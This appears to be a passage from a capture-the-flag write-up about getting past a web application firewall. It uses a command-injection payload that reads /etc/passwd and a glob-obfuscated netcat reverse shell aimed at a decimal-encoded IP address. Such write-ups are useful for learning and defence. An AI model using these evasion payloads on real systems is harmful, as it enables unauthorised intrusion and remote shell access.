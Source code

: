 ![](images/fugit3/waf.png)

This mean we need some kind of encoding or special characters in out commands to be able to bypass the WAF.

I did `&cmd=cat%20/etc$u/passwd`

![](images/fugit3/passwd.png)

Now I was sure that WAF is killing my normal shell command so I made another one for `netcat`.

```
/???/n?t??t+-e+/???/?h+3232249857+1234
```

![](images/fugit3/rev2.png)
